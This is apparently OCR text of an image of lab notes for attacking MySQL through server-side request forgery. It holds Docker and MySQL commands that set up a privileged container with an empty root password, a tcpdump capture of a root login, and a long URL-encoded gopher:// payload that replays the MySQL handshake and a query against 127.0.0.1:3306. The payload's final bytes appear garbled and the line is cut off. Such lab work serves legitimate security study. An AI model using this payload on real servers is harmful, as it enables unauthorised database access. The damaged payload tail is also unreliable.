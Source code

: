 docker pull asappinc/ubuntu18
docker run --privileged --name mysqltest -it asappinc/ubuntu18
apt update
apt install -y mysql-server-5.7
service mysql start
mysql -uroot -e "ALTER USER 'root'@'localhost' IDENTIFIED WITH mysql_native_password BY '';"
mysql -uroot -e "FLUSH PRIVILEGES;"

---------------

tcpdump -i lo port 3306 -w mysql.pcap
mysql --ssl-mode=DISABLED -u root -h 127.0.0.1 -e  'show databases;'


---------------------

gopher://127.0.0.1:3306/_%a2%00%00%01%85%a2%bf%01%00%00%00%01%21%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%72%6f%6f%74%00%00%6d%79%73%71%6c%5f%6e%61%74%69%76%65%5f%70%61%73%73%77%6f%72%64%00%65%03%5f%6f%73%05%4c%69%6e%75%78%0c%5f%63%6c%69%65%6e%74%5f%6e%61%6d%65%08%6c%69%62%6d%79%73%71%6c%04%5f%70%69%64%04%31%32%31%34%0f%5f%63%6c%69%65%6e%74%5f%76%65%72%73%69%6f%6e%06%35%2e%37%2e%34%32%09%5f%70%6c%61%74%66%6f%72%6d%06%78%38%36%5f%36%34%0c%70%72%6f%67%72%61%6d%5f%6e%61%6d%65%05%6d%79%73%71%6c%21%00%00%00%03%73%65%6c%65%63%74%20%40%40%76%65%72%73%69%6f%6e%5f%63%6f%6d%6d%65%6e%74%20%6c%69%6d%69%74%03%10%f0%00%00%00%37%36%86%f7%72%06%46%17%46%16%26%17%36%57%30%10%00%00%00%1